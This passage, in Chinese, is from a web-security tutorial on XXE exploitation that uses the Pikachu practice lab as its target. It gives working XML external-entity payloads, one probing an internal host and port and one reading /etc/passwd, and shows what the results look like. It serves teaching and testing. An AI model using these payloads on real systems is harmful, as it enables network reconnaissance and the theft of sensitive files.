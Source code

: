 下面介绍一些 XXE 漏洞的常见利用方法，并提供一些 payload 测试用例，测试仍以 Pikachu XXE 题目作为演示。

#### 1.内网攻击

XXE 支持 http 等 URL，所以同样可以产生与 SSRF 一样效果，对内网进行指纹探测、端口扫描、漏洞攻击等行为。

比如以下的 payload：

复制代码

```
<?xml version = "1.0"?>

<!DOCTYPE ANY [

    <!ENTITY xxe SYSTEM "http://192.168.31.124:4444/test">

]>

<x>&xxe;</x></r>
```

由于不存在该端口，所以会出错误：

![图片1.png](https://s0.lgstatic.com/i/image/M00/8E/F5/CgqCHmAGWcqAO_PgAASscDOp6uA731.png)

图 1 探测内网端口失败

成功的话，会返回空白，通过这种对比差异，可以判断是否利用成功：

![图片2.png](https://s0.lgstatic.com/i/image2/M01/06/D6/Cip5yGAGWdyAQDS2AANXkfuguok138.png)

图 2 探测内网端口成功

#### 2.读取本地文件

通过 file:// 可以读取本地文件，造成敏感文件泄露：

复制代码

```
<?xml version = "1.0"?>

<!DOCTYPE ANY [

    <!ENTITY xxe SYSTEM "file:///etc/passwd">

]>

<x>&xxe;</x>
```

输入上述 XML 提交后，成功读取到 /etc/passwd 文件内容：

![Drawing 2.png](https://s0.lgstatic.com/i/image2/M01/05/7B/CgpVE2AABv6AfyHcAAGL6fVMVng679.png)

图 3 利用XXE漏洞读取 /etc/passwd
